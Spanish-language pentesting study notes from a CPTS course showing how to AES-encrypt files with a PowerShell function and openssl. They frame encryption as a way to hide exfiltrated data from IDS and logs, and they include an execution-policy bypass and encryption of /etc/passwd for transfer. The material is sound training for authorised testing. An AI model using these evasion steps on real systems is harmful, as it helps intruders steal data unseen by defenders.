Función de PowerShell para cifrar/descifrar texto o archivos con **AES-256 en modo CBC**, usando una contraseña simple como clave. Pertenece al bloque de **Transferencia de Archivos** del módulo de Footprinting (CPTS).

#### Para qué sirve en pentesting

Cuando exfiltras datos de una máquina comprometida (o subes herramientas), cifrar el contenido antes de moverlo por la red evita que:

- Un IDS/firewall detecte el contenido por inspección de tráfico.
- Quede evidencia legible en logs de transferencia (HTTP, SMB, etc.).

#### Cómo cargarlo (dot-sourcing)

```powershell
. .\AESEncryption.ps1
```

El `.` inicial es **obligatorio** — sin él, PowerShell ejecuta el script pero **no deja la función disponible** en la sesión.

Si hay bloqueo por política de ejecución:

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\AESEncryption.ps1
```

Verificar que cargó:

```powershell
Get-Command Invoke-AESEncryption
```

#### Uso — Texto

**Cifrar:**
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text"
```
→ Devuelve el resultado cifrado codificado en **Base64** (texto copiable/pegable).

**Descifrar:**
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "<cadena_base64>"
```
→ Devuelve el texto plano original.

#### Uso — Archivo

**Cifrar:**
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path archivo.txt
```
→ Genera `archivo.txt.aes` (archivo cifrado, listo para transferir).

**Descifrar:**
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Path archivo.txt.aes
```
→ Reconstruye `archivo.txt` con el contenido original.

#### Cómo funciona por dentro

1. **Derivación de clave**: la `-Key` que pasas (ej. `"p@ssw0rd"`) NO se usa directamente como clave AES. Se le aplica **SHA-256** para convertir cualquier contraseña en una clave de exactamente 256 bits (lo que AES-256 necesita).
    ```powershell
    $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
    ```
2. **Cifrado (`Encrypt`)**:
    - Convierte el texto/archivo a bytes.
    - Cifra con AES usando la clave derivada.
    - Antepone el **IV** (Initialization Vector) generado automáticamente a los bytes cifrados — el IV no es secreto, pero es necesario para descifrar, así que se guarda pegado al principio del resultado.
    - Si es texto → devuelve todo en Base64. Si es archivo → escribe un nuevo archivo con extensión `.aes`.
3. **Descifrado (`Decrypt`)**:
    - Separa los primeros 16 bytes (el IV) del resto de los datos cifrados.
    - Usa ese IV + la misma clave derivada para descifrar.
    - Devuelve el texto plano o reconstruye el archivo original (quitando la extensión `.aes`).

> [!WARNING]
> **Punto clave**
> Es cifrado **simétrico**: la misma clave sirve para cifrar y descifrar. Si la clave no coincide **exactamente** al descifrar, el resultado sale corrupto/ilegible — mantén la misma clave en ambos extremos (atacante ↔ máquina comprometida).

#### Prueba realizada en el lab

```powershell
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text"
# → yxiL2qpEUUaKxnrZnCYBOYjzQhX27xF5djqR4IILrPk=

Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "yxiL2qpEUUaKxnrZnCYBOYjzQhX27xF5djqR4IILrPk="
# → Secret Text
```
Ciclo cifrado→descifrado confirmado funcionando en VM Windows Server del lab casero de CPTS.

---

### Cifrado de archivos en Linux (OpenSSL)

En Linux, `openssl` cifra/descifra ficheros con AES-256 directamente, sin scripts extra.

**Cifrar:**
```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```

**Descifrar:**
```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```

| Opción | Qué hace |
|--------|----------|
| `enc -aes256` | Cifrado simétrico AES-256. |
| `-d` | Modo **descifrado** (sin `-d` = cifrar). |
| `-iter 100000` | Iteraciones de derivación de clave (más = más resistente a fuerza bruta). |
| `-pbkdf2` | Usa **PBKDF2** para derivar la clave desde la contraseña (más seguro que el KDF antiguo). |
| `-in` / `-out` | Fichero de entrada / salida. |

> [!NOTE]
> `openssl enc` pide la contraseña de forma interactiva. Usa **los mismos** `-iter` y `-pbkdf2` al descifrar, o fallará.

---

### Resumen rápido (cheatsheet)

| Plataforma | Acción | Comando |
|------------|--------|---------|
| Windows | Cargar función | `. .\AESEncryption.ps1` |
| Windows | Cifrar texto | `Invoke-AESEncryption -Mode Encrypt -Key "<k>" -Text "<t>"` |
| Windows | Descifrar texto | `Invoke-AESEncryption -Mode Decrypt -Key "<k>" -Text "<b64>"` |
| Windows | Cifrar archivo | `Invoke-AESEncryption -Mode Encrypt -Key "<k>" -Path f.txt` → `f.txt.aes` |
| Windows | Descifrar archivo | `Invoke-AESEncryption -Mode Decrypt -Key "<k>" -Path f.txt.aes` |
| Linux | Cifrar archivo | `openssl enc -aes256 -iter 100000 -pbkdf2 -in f -out f.enc` |
| Linux | Descifrar archivo | `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in f.enc -out f` |

---

Relacionado: transfiere el fichero cifrado con → **NGINX** · **Métodos de transferencia de archivos en Windows** · otra capa de evasión → **Evasión de Detección** · **0 - File Transfers (Índice y guía)**

---
